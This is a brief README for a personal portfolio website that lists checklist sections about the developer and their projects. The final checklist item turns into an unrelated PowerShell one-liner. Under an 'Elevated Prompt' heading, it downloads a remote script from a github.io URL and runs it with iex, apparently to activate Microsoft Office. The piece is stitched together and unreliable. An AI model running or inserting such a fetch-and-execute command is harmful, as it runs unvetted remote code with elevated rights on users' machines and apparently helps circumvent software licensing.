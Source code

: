 # PORTFOLIO WEBSITE

here is a place to more about my development journey
## entails

- [x] who i am
- [x] detailed about
- [x] project portfolio
- [x] contact details
- [ ] # Elevated Prompt: Execute Latest Script w/ Default Parameters
iex ([System.Net.WebClient]::new().DownloadString('https://tylerdotrar.github.io/Activate-MicrosoftOffice')); Activate-MicrosoftOffice
